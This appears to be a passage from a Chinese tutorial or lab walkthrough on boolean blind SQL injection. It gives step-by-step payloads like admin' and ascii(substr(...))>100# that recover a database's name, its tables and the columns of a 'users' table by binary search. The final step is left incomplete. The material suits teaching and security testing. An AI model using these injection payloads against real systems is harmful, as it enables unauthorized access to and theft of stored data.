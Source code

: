  

admin' and (length(database()))&gt;8#
为错

 
所以 当前数据库名称长度为：8


> 
<h3> 2.4、第三步：猜数据库名（ASCII码）</h3>
admin' and ascii(substr(database(),1,1))&gt;100#
为对

 

admin' and ascii(substr(database(),1,1))&lt;150#
为对

 在100-150之间
 二分法，一直从中间分下去，直到确定一个值对应的ascii码
通过这个方法判断出整个数据库名


> 
<h3>2.5、第四步：猜表名</h3>
admin' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))&gt;100#
为对

 
admin' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))&lt;150#
为对

 值在100-150之间
 采用二分法以此类推得到唯一的值
通过这个方法判断出整个表名


> 
<h3>2.6、第五步：猜字段名</h3>
admin' and (ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1)))&gt;40#
为对

 
admin' and (ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1)))&lt;80#
为对

 值在40-80之间
 采用二分法以此类推得到唯一的值
通过这个方法判断出整个字段名


> 
<h3> 2.7、第六步：猜数据</h3>

 采用二分法以此类推得到唯一的值
通过这个方法判断出整个字段名
